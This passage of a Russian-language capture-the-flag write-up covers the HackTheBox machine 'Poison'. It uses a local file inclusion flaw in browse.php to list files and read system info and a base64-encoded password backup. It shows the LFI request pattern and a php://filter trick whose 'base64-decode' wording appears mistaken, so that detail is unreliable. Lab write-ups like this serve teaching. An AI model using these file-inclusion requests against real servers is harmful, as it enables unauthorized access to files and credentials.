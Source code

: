 Страничка с тестом php-скриптов. Не долго думая, откроем `listfiles.php`:

```html
<!-- view-source:http://10.10.10.84/browse.php?file=listfiles.php -->

Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
```

7 элементов массива, не считая текущей и предыдущей директорий (`.`, `..`). На главной страничке было указано 4 файла, теперь видно, что помимо них имеется: `browse.php` — скрипт, который и отвечает за показ содержимого других файлов и выполнение php-скриптов (сердце LFI-уязвимости, можно воспользоваться `/browse.php?file=php://filter/convert.base64-decode/resource=<SCRIPT.PHP>`, чтобы посмотреть на исходник скрипта, а не выполнить его), `index.php` — собственно сама главная страница, и таинственный `pwdbackup.txt`.

К `phpinfo.php` еще вернемся, `ini.php` не представляtтся ценным, а в `info.php` — информация о системе (просто вывод `uname -a`, I guess):

```html
<!-- view-source:http://10.10.10.84/browse.php?file=info.php -->

FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017     root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC amd64
```

## Захват пользователя. Способ 1, читерский (Web)

Ну и сразу откроем `pwdbackup.txt`, интересно же :joy:

```html
<!-- view-source:http://10.10.10.84/pwdbackup.txt -->

This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```
